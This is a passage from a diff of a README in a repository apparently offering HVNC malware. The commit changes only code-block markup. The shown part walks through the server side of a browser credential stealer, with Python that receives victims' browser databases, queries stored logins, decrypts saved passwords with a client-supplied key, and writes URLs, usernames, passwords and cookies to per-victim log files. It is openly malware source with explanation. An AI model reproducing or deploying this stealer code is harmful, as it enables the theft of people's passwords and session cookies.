

Before and after one commit to DevilBot000/HVNC-HTML, a Markdown page: README.md, the part around one of its changes. Shown at 82% size. Rendered like a GitHub page; blank space fills up the shorter version.

```diff
--- a/README.md
+++ b/README.md
@@ -1489,36 +1490,36 @@ Let's now look at the server side of the code, which will accept JSON and decryp
 
         return json.dumps({'error': f'Error while processing data: {str(e)}'}, ensure_ascii=False), 500
 
-[/CODE]
+
 
 
 
 Now let's look at this code in parts.
 
-[CODE=python]
+[python]
 
     def receive_browser_log(unique_id):
-[/CODE] This function first receives JSON from the client
-[CODE=python]
+This function first receives JSON from the client
+[python]
 
     unique_id_logs_dir = os.path.join(app.root_path, 'logs', unique_id)
     os.makedirs(unique_id_logs_dir, exist_ok=True)
-[/CODE] Create a directory in which the logs will be stored. Each client's log folder will be named after its unique ID
-[CODE=python]
+Create a directory in which the logs will be stored. Each client's log folder will be named after its unique ID
+[python]
 
     passwords_file_path = os.path.join(unique_id_logs_dir, 'passwords.txt')[/CODE] Path to the file in which passwords will be written
-[CODE=python]
+[python]
 
     key_base64 = browser_data.get("key")
     if key_base64 is None:
     print(f'There is no key in the browser {browser_name}.')
     continue
-[/CODE] Getting the key in base64 format from the data received from the client
-[CODE=python]
+Getting the key in base64 format from the data received from the client
+[python]
 
     key = base64.b64decode(key_base64)
-[/CODE] Decoding a key from base64 to bytes
-[CODE=python]
+Decoding a key from base64 to bytes
+[python]
 
     decoded_data = base64.b64decode(file_data)
     db_name = f'{browser_name}_{param_name}_{idx}.db'
@@ -1527,39 +1528,39 @@ Now let's look at this code in parts.
     with open(db_path, 'wb ') as db_file:
     db_file.write(decoded_data)
 
-[/CODE] This code decodes files from base64, namely databases with logins and passwords. Then these decoded files are written to the log folder that we created earlier.
-[CODE=python]
+This code decodes files from base64, namely databases with logins and passwords. Then these decoded files are written to the log folder that we created earlier.
+[python]
 
     if (param_name == "login_data"):
     connection = sqlite3.connect(db_path)
     cursor = connection.cursor()
     cursor.execute("SELECT origin_url, username_value, password_value FROM logins")
-[/CODE] If JSON contains the login_data parameter, then in this case a connection to this database occurs
-[CODE=python]
+If JSON contains the login_data parameter, then in this case a connection to this database occurs
+[python]
 
     origin_url = row[0]
     username_value = row[1]
     encrypted_password = row[2]
-[/CODE] These rows are responsible for extracting data from the columns
-[CODE=python]
+These rows are responsible for extracting data from the columns
+[python]
 
     decrypted_password = decrypt_password(encrypted_password, key)
-[/CODE]The decrypt_password function is called and passed the encrypted password and the key     that was previously decoded from base64.
-[CODE=python]
+The decrypt_password function is called and passed the encrypted password and the key     that was previously decoded from base64.
+[python]
 
     passwords_file.write(f'Browser: {browser_name}\n')
     passwords_file.write(f'Origin URL: {origin_url}\n')
     passwords_file.write(f'Username: {username_value}\n' )
     passwords_file.write(f'Password: {decrypted_password}\n')
-[/CODE] Write data from database columns to a previously created text file for passwords, and the     decrypted password itself.
-[CODE=python]
+Write data from database columns to a previously created text file for passwords, and the     decrypted password itself.
+[python]
 
     elif param_name == "cookies":
     cookies_file_path = os.path.join(unique_id_logs_dir,
                                      f'cookies_{browser_name}_{idx}.txt')
     process_cookies(decoded_data, key, cookies_file_path)
     print(f"File {db_name} was successfully saved and cookies were decrypted.")
-[/CODE] In this code, it first checks whether there is a cookies parameter in the JSON; if it exists, then the path for saving the file is formed.
-[CODE=python]
+In this code, it first checks whether there is a cookies parameter in the JSON; if it exists, then the path for saving the file is formed.
+[python]
 
     process_cookies(decoded_data, key, cookies_file_path)
```
Also changed, not shown: other parts of README.md (+86 -87 lines).
